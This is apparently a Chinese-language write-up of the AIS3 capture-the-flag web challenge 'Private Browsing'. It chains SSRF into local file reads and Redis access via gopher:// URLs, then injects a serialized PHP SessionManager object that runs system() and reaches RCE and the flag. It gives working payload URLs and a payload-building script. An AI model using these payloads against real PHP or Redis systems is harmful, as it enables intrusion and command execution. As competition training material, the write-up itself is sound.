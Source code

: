 # Private Browsing
## 題目

![image](https://user-images.githubusercontent.com/57281249/168679457-367f5a33-25db-4a3e-8f4e-244d8f1f7746.png)

## 解題
看起來是很經典的 ssrf 雖說前端鎖定 `http[s]` 但後端沒鎖，所以直接用 `/api.php` 做 ssrf。

![image](https://user-images.githubusercontent.com/57281249/168679552-88a04987-7d50-483e-96ff-3c07959cb7ee.png)

先 `http://chals1.ais3.org:8763/api.php?action=view&url=file:///proc/net/tcp` 看有那些機器可以打。

![image](https://user-images.githubusercontent.com/57281249/168679688-0c967c35-cb63-431f-955d-16314138d99f.png)

可以看到 server 頻繁的對 `192.168.224.2:6379` 做存取

![image](https://user-images.githubusercontent.com/57281249/168679788-895144f3-7c15-491a-a442-9a722c921126.png)

google 查到 tcp 6379 port 是 redis

`http://chals1.ais3.org:8763/api.php?action=view&url=dict://192.168.224.2:6379/info` 證實了是 redis。

![image](https://user-images.githubusercontent.com/57281249/168679873-1df967d9-9962-4c41-99e1-9482f9ebd724.png)

但資訊依然不夠，因此抓 source code  `http://chals1.ais3.org:8763/api.php?action=view&url=file:///var/www/html/api.php`

![image](https://user-images.githubusercontent.com/57281249/168679976-11321211-7ae7-4d26-81b0-c9f9d53d475e.png)

有一個 `require_once 'session.php'` 把他抓下來 `http://chals1.ais3.org:8763/api.php?action=view&url=file:///var/www/html/session.php`

![image](https://user-images.githubusercontent.com/57281249/168680029-3bd44063-68a1-47d3-8907-96a9e6adc53f.png)

經過長時間的閱讀後可以發現他會將 cookie `sess_id` 作為 key，現在所用的 `BrowsingSession` class serialize 後儲存到 redis 格式是長這樣 `O:15:"BrowsingSession":1:{s:7:"history";a:1:{i:0;s:19:"https://google.com/";}}` 這就是他做 history 的方式。

![image](https://user-images.githubusercontent.com/57281249/168680103-d9a97b08-e658-4fa6-8ffb-91ba0c8a9c97.png)

![image](https://user-images.githubusercontent.com/57281249/168680292-7ac1febd-13a0-48a6-b4ca-a9aead5ff853.png)

這樣的話就可以用這隻 script 建立 payload (dict 的話冒號會不見)
``` python
from urllib.parse import quote
import sys

tcp_payload = sys.argv[2]
ip = sys.argv[1]
url = f"gopher://{ip}:6379/_{quote(tcp_payload)}"
print(url)
```

但是 `BrowsingSession` 並沒有可以利用這點做 RCE 的地方，因為他只有一個 `history` 的 variable 並作為 array 做存取。

發現 `SessionManager` 的 `encode` 跟 `decode` 是 variable function 執行位置是在 `get()` 跟 `__destruct()`(解構子)

原本是著利用 `get()` 做 RCE 因為外層的 `SessionManager` 再跑 `$session->push` 會用 `__call()` return 的 class 去執行 `push` 
而 `get()` 的內容是 `val` 有東西就直接 return，redis 內有東西就直接 decode redis 的 value，都沒就建一個，而存在 redis 的東西被使用 `gopher://192.168.224.2:6379/_SET%20fc57bda95a5184e55555%20%22O%3A14%3A%5C%22SessionManager%5C%22%3A3%3A%5C%7Bs%3A3%3A%5C%22val%5C%22%3BN%3Bs%3A6%3A%5C%22decode%5C%22%3Bs%3A6%3A%5C%22system%5C%22%3Bs%3A6%3A%5C%22sessid%5C%22%3Bs%3A4%3A%5C%22code%5C%22%3B%5C%7D%22` 改成 `O:14:"SessionManager":3:{s:3:"val";N;s:6:"decode";s:6:"system";s:6:"sessid";s:4:"code";}`
所以他會跑內部的 `SessionManager` 的 `__call()` 然後 call `get()` 因為 `val` 是 null 所以會找 redis，因 redis 的 value 有用 `dict://192.168.224.2:6379/SET%20code%20%22ls%22` 設 `code` 為 `ls` 的 command 且 `decode` 被改成 `system` 所以會 RCE。

![image](https://user-images.githubusercontent.com/57281249/168680691-80edc434-15b8-452f-815a-b385a0cfe275.png)

![image](https://user-images.githubusercontent.com/57281249/168680802-cd723fc9-fa33-428e-9926-862e7438dc30.png)

然而忽略了一點是 `get()` 內的 redis 是 `$this` 下面的而非 `global` 而 connect 後的 redis 無法用 `unserialize` 製造，所以用 `get()` RCE 會是失敗的。

![image](https://user-images.githubusercontent.com/57281249/168680978-db80ee91-3815-4818-b47d-df422484bcb4.png)

後來想到如果成是 error 內部的 `SessionManager` 也會做 `__destruct()` 因此用 `gopher://192.168.224.2:6379/_SET%20fc57bda95a5184e55555%20%22O%3A14%3A%5C%22SessionManager%5C%22%3A3%3A%5C%7Bs%3A3%3A%5C%22val%5C%22%3Bs%3A2%3A%5C%22ls%5C%22%3Bs%3A6%3A%5C%22encode%5C%22%3Bs%3A6%3A%5C%22system%5C%22%3Bs%3A6%3A%5C%22sessid%5C%22%3Bs%3A4%3A%5C%22code%5C%22%3B%5C%7D%22` 將其設為 `O:14:"SessionManager":3:{s:3:"val";s:2:"ls";s:6:"encode";s:6:"system";s:6:"sessid";s:4:"code";}` 

![image](https://user-images.githubusercontent.com/57281249/168681047-d59c3bac-65ee-43ae-a00c-e00e616549f1.png)

然後將 cookie 切為 `fc57bda95a5184e55555` 然後隨便看一個 url 可以發現成功 RCE。

![image](https://user-images.githubusercontent.com/57281249/168681126-6a23d53c-493c-49c6-96fe-7edfe8cd9145.png)

用`gopher://192.168.224.2:6379/_SET%20fc57bda95a5184e55555%20%22O%3A14%3A%5C%22SessionManager%5C%22%3A3%3A%5C%7Bs%3A3%3A%5C%22val%5C%22%3Bs%3A9%3A%5C%22/readflag%5C%22%3Bs%3A6%3A%5C%22encode%5C%22%3Bs%3A6%3A%5C%22system%5C%22%3Bs%3A6%3A%5C%22sessid%5C%22%3Bs%3A4%3A%5C%22code%5C%22%3B%5C%7D%22` 將其設為 `O:14:"SessionManager":3:{s:3:"val";s:9:"/readflag";s:6:"encode";s:6:"system";s:6:"sessid";s:4:"code";}` 

![image](https://user-images.githubusercontent.com/57281249/168681275-3db45eb8-68a1-466d-bd64-dc5569362920.png)

然後將 cookie 切為 `fc57bda95a5184e55555` 便可以看到 flag。

![image](https://user-images.githubusercontent.com/57281249/168681316-972fd3c8-472d-461f-add3-a50a971d0dc0.png)

## Flag
`AIS3{deadly_ssrf_to_rce}`
